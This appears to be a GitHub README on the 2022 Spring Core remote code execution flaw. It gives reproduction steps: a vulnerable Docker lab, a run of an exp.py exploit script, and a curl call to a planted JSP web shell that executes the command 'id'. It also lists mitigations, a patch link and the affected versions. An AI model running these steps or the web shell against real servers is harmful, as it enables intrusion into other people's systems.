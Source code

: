 # How to reproduce
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29

python3 ./exp.py --url http://192.168.0.11:8082

curl --output - "http://192.168.0.11:8082/tomcatwar.jsp?pwd=j&cmd=id"

![vulnerable code + poc](images/exploit.jpg)

# Mitigations
https://github.com/blindpirate/spring-rce-2022-03-hotfix (untested)

https://www.praetorian.com/blog/spring-core-jdk9-rce/

# Spring Core RCE

> After Spring Cloud, on 3.29, another major Spring vulnerability was reported online: Spring Core RCE

(Note from craig: Spring Cloud exploit here: https://github.com/hktalent/spring-spel-0day-poc)

## coded poc in circulation
** currently exp has been uploaded ``exp.py`` **
![circulating coded poc](images/poc.png)
![awkward situation](images/img_1.png)

## The official Spring patch is also in active production  
[Link to patches in production for Spring](https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529)

## The vulnerability affects
1. jdk version 9 and above
2. using Spring Framework or derivative frameworks
## Vulnerability Fix Recommendations
Currently, Spring has not released a patch, so we recommend lowering the jdk version as a temporary solution.

Translated with www.DeepL.com/Translator (free version)
